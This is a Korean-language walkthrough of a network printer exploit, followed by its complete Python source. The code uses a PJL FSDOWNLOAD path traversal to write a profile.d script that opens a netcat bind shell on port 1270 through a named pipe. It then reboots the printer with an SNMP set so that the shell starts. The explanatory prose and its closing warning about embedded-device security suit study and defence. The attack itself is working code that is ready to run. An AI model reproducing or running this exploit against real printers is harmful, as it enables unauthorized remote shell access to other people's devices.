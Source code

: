 # 프린터 익스플로잇 코드 분석

이 코드는 특정 IP와 포트로 연결하여 프린터의 취약점을 악용하는 익스플로잇 코드입니다. 
프린터의 파일 시스템에 악성 쉘 스크립트를 업로드하고, 
SNMP를 통해 프린터를 재부팅시켜 해당 스크립트를 실행하도록 하는 것이 주요 목적입니다.

## 코드 분석

1. 필요한 라이브러리들을 임포트합니다 (socket, sys, easysnmp의 snmp_set)

2. `profile_d_script` 변수에 악성 쉘 스크립트 내용을 저장합니다. 
  - 이 스크립트는 `/tmp/pwned`라는 named pipe를 만들고, 이를 통해 들어오는 입력을 `/bin/sh`로 실행하며, 
  - 그 출력을 다시 named pipe로 보내는 한편, 1270 포트로 `nc`를 실행하여 원격에서 쉘에 접근할 수 있게 합니다.

3. 명령행 인자가 2개가 아니면 사용법을 출력하고 종료합니다.

4. 첫번째 명령행 인자를 IP로, 두번째 인자를 포트로 하여 서버 주소를 지정합니다. 이 주소로 소켓 연결을 생성합니다.

5. `dir_query` 변수에 프린터 파일 시스템에 파일을 쓰기 위한 PJL(Printer Job Language) 명령을 저장합니다. 
  - `FSDOWNLOAD` 명령을 사용하여 `profile_d_script`의 내용을 `"0:/../../rw/var/etc/profile.d/lol.sh"`에 씁니다.
  - 이는 프린터의 파일 시스템을 탐색하여 `profile.d` 디렉토리에 악성 스크립트를 업로드하는 것입니다.

6. 소켓을 통해 `dir_query`를 전송하고 연결을 닫습니다. 

7. 새로운 소켓 연결을 생성하고, `FSQUERY` 명령을 사용하여 업로드한 파일의 내용을 읽어옵니다. 응답을 출력합니다.

8. `easysnmp` 라이브러리의 `snmp_set` 함수를 사용하여 프린터의 SNMP OID `.1.3.6.1.2.1.43.5.1.1.3.1`의 값을 4로 설정합니다. 
  - 이는 프린터를 재부팅하도록 하는 명령입니다.

9. 완료 메시지를 출력하고, 약 30초 후에 1270 포트에 접속해보라고 안내합니다.
  - 프린터가 재부팅되면서 `profile.d`의 스크립트가 실행될 것이고, 1270 포트로 쉘에 접근할 수 있게 됩니다.

## 위험성

이 코드는 프린터의 취약한 설정을 악용하여 악성 코드를 심고 원격에서 실행하도록 하는 위험한 익스플로잇입니다. 
프린터 등의 임베디드 시스템도 보안에 각별한 주의를 기울여야 함을 보여주는 사례입니다.
특정 프린터 모델의 펌웨어 취약점을 악용한 것으로 보이며, 패치되지 않은 구형 장비들이 노출될 위험이 있어 보입니다.


```
import socket
import sys
from easysnmp import snmp_set

profile_d_script = ('if [ ! -p /tmp/pwned ]; then\n'
                    '\tmkfifo /tmp/pwned\n'
                    '\tcat /tmp/pwned | /bin/sh 2>&1 | /usr/bin/nc -l 1270 > /tmp/pwned &\n'
                    'fi\n')

if len(sys.argv) != 3:
    print('\nUsage: upload.py [ip] [port]\n')
    sys.exit()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(2)
server_address = (sys.argv[1], int(sys.argv[2]))
print('connecting to %s port %s' % server_address)
sock.connect(server_address)

dir_query = '@PJL FSDOWNLOAD FORMAT:BINARY SIZE=' + str(len(profile_d_script)) + ' NAME="0:/../../rw/var/etc/profile.d/lol.sh"\r\n'
dir_query += profile_d_script
dir_query += '\x1b%-12345X'
sock.sendall(dir_query)
sock.close()

sock1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock1.connect(server_address)
dir_query = '@PJL FSQUERY NAME="0:/../../rw/var/etc/profile.d/lol.sh"\r\n'
sock1.sendall(dir_query)

response = ''
while True:
    data = sock1.recv(1).decode()
    if '\n' == data:
        break
    response += data

print(response)
snmp_set('.1.3.6.1.2.1.43.5.1.1.3.1', 4, 'integer', hostname='192.168.1.158', community='public', version=1)
print('Done! Try port 1270 in ~30 seconds')

```
